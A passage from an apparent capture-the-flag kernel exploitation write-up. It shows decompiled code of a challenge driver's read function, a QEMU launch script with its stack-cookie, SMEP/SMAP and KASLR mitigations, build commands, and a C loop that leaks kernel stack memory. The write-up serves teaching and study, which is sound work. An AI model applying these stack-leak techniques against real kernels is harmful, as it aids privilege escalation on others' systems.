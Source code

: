 
And can leak stuff with this function:


    000000c0  int64_t sread(int64_t arg1, int64_t arg2, int64_t arg3)
    
    000000ce      void* gsbase
    000000ce      int64_t rax = *(gsbase + 0x28)
    000000ee      int64_t var_90
    000000ee      __builtin_strcpy(dest: &var_90, src: "Welcome to this kernel pwn series")
    00000129      int32_t rax_1
    00000129      int64_t rsi_1
    00000129      int64_t rdi_1
    00000129      rax_1, rsi_1, rdi_1 = copy_user_generic_unrolled(arg2, &var_90)
    00000130      if (rax_1 == 0)
    00000130          return sread.cold(arg3, rdi_1, rsi_1) __tailcall
    0000014e      if (rax != *(gsbase + 0x28))
    00000159          __stack_chk_fail()
    00000159          noreturn
    00000158      return -0xe


As we can see there is kernel stack cookie as mitigation.. speaking of here is our lunch script that reveals the protection:

    #!/bin/bash
    
    SCRIPT_DIR="$( cd "$( dirname "${BASH_SOURCE[0]}" )" &> /dev/null && pwd )"
    
    timeout --foreground 180 /usr/bin/qemu-system-x86_64 \
    	-m 64M \
    	-cpu kvm64,+smep,+smap \
    	-kernel $SCRIPT_DIR/bzImage \
    	-initrd $SCRIPT_DIR/initramfs.cpio.gz \
    	-nographic \
    	-monitor none \
    	-append "console=ttyS0 kaslr quiet panic=1" \
    	-no-reboot \
    	-gdb tcp::12345 # added by me for debugging

And to compile and send the binary I wrote those few lines:

    gcc exploit.c -o exploit -static
    cp exploit fs/
    ./rebuild_fs.sh
    ./launch.sh

# Leak
As always here is the fuzzy c code to leak the stack:

    for (int i=1; i<25; i++){
            unsigned long leak[i];
            read(fd, leak, sizeof(leak));
            for (int j=0; j<i; j++){
                    printf("Cycle: %d ||| Idx: %d ||| Content: %lx\n",i, j, leak[j]);
            }
    }
